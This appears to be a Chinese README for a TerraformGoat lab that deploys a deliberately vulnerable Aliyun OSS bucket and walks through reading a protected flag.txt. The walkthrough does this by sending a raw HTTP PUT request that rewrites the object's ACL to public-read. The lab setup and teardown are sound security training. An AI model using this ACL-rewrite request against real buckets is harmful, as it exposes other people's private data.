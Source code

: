 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

在确认没有问题后，输入yes回车即可快速构建

![image-20220425190632275](../../../images/image-20220425190632275.png)

直接访问该存储桶的/flag.txt

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限

![image-20220425190747906](../../../images/image-20220425190747906.png)

随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

成功修改了对象的ACL，现在使用GET方法来获取

![image-20220425191033750](../../../images/image-20220425191033750.png)

## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可

![image-20220425191136549](../../../images/image-20220425191136549.png)

